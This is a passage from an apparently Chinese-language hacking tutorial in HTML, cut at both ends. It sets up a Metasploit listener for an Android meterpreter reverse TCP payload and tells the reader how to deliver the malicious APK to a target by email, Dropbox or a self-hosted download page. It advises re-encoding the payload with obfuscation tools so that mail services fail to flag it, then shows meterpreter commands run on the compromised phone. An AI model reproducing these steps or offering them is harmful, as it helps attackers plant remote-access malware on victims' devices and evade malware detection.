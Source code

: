 msf &gt;set PAYLOAD android/meterpreter/reverse_tcp

msf &gt;set LHOST 192.168.1.101

msf &gt; set LPORT 6996

msf &gt; exploit</pre>
  <p class="graf graf--p">
   您必须确保 PAYLOAD、LPORT 和 LHOST 与您在 msfvenom 中创建.apk文件时使用的相同。
  </p>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     步骤5：将 HackersAriseMalwareApp.apk 交付给目标
    </strong>
   </span>
  </h3>
  <p class="graf graf--p">
   下一步，当然是将 .apk 文件传送到目标的移动设备上。如果您可以物理访问目标设备，只需安装 HackersAriseMalwareApp.apk。否则，您需要通过电子邮件或DropBox或其他方式将其发送给目标。
  </p>
  <p class="graf graf--p">
   需要注意的是，这个文件很可能会被Gmail和其他电子邮件服务标记为恶意软件。因此，考虑用
   <a class="markup--anchor markup--p-anchor" data-href="http://shell-storm.org/" href="http://shell-storm.org/" rel="noopener" target="_blank">
    OWASP-ZSC
   </a>
   或其他混淆软件（如 shellter 或 Veil-Evasion）重新编码有效载荷。
  </p>
  <p class="graf graf--p">
   此外，您甚至可能会考虑在自己的网站上托管.apk，并鼓励人们下载它。
  </p>
  <h3 class="graf graf--p">
   <span style="color: #339966;">
    <strong class="markup--strong markup--p-strong">
     步骤6：入侵目标系统
    </strong>
   </span>
  </h3>
  <p class="graf graf--p">
   一旦目标安装了.apk，您应该得到一个像下面这样的 meterpreter 提示。然后可以输入命令 sysinfo 来验证您是在Android设备上。
  </p>
  <pre class="graf graf--p">meterpreter &gt; sysinfo</pre>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="308" data-image-id="1*2MIi2ogQXJd1-kSYT6sgtw.png" data-lazy-src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*2MIi2ogQXJd1-kSYT6sgtw.png?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="1672" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*2MIi2ogQXJd1-kSYT6sgtw.png?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="308" data-image-id="1*2MIi2ogQXJd1-kSYT6sgtw.png" data-recalc-dims="1" data-width="1672" src="https://i0.wp.com/cdn-images-1.medium.com/max/1067/1*2MIi2ogQXJd1-kSYT6sgtw.png?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   然后可以输入 help 以查看所有 Android meterpreter 命令：
  </p>
  <pre class="graf graf--p">meterpreter &gt; help</pre>
  <figure class="graf graf--figure">
   <img class="graf-image aligncenter jetpack-lazy-image" data-height="588" data-image-id="1*oBN5ZUuhPhjjuEpiicoZyg.png" data-lazy-src="https://i1.wp.com/cdn-images-1.medium.com/max/1067/1*oBN5ZUuhPhjjuEpiicoZyg.png?w=1100&amp;is-pending-load=1#038;ssl=1" data-recalc-dims="1" data-width="1672" src="https://i1.wp.com/cdn-images-1.medium.com/max/1067/1*oBN5ZUuhPhjjuEpiicoZyg.png?w=1100&amp;ssl=1" srcset="data:image/gif;base64,R0lGODlhAQABAIAAAAAAAP///yH5BAEAAAAALAAAAAABAAEAAAIBRAA7"/>
   <noscript>
    <img class="graf-image aligncenter" data-height="588" data-image-id="1*oBN5ZUuhPhjjuEpiicoZyg.png" data-recalc-dims="1" data-width="1672" src="https://i1.wp.com/cdn-images-1.medium.com/max/1067/1*oBN5ZUuhPhjjuEpiicoZyg.png?w=1100&amp;ssl=1"/>
   </noscript>
  </figure>
  <p class="graf graf--p">
   请注意，在 Android Meterpreter 中提供了一些独特的选项，例如：
  </p>